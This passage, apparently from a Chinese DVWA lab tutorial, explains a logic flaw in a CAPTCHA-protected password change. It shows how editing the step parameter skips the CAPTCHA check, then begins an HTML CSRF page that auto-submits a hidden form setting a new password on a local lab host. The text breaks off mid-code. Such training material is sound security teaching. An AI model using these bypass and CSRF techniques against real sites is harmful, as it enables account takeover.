 


可以看到，服务器将改密操作分成了两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交post请求，服务器完成更改密码的操作。但是，这其中存在明显的逻辑漏洞，服务器仅仅通过检查Change、step 参数来判断用户是否已经输入了正确的验证码。



**漏洞利用**



1.通过构造参数绕过验证过程的第一步



首先输入密码，点击Change按钮，抓包：



[![1.png](http://image.3001.net/images/20161110/14787628337241.png!small)](http://image.3001.net/images/20161110/14787628337241.png)



（ps:因为没有翻墙，所以没能成功显示验证码，发送的请求包中也就没有recaptcha\_challenge\_field、recaptcha\_response\_field两个参数）



更改step参数绕过验证码：



[![1.png](http://image.3001.net/images/20161110/14787628821104.png!small)](http://image.3001.net/images/20161110/14787628821104.png)



修改密码成功：



[![1.png](http://image.3001.net/images/20161110/1478762911998.png!small)](http://image.3001.net/images/20161110/1478762911998.png)



2.由于没有任何的防CSRF机制，我们可以轻易地构造攻击页面，页面代码如下（详见[CSRF模块的教程](http://www.freebuf.com/articles/web/118352.html)）。



`<html>`



`<body onload="document.getElementById('transfer').submit()">`



  `<div>`



    `<form method="POST" id="transfer" action="[http://192.168.153.130/dvwa/vulnerabilities/captcha/](http://192.168.153.130/dvwa/vulnerabilities/captcha/)">`



`<input type="hidden" name="password_new" **value**="password">`



`<input type="hidden" name="password_conf" **value**="password">`
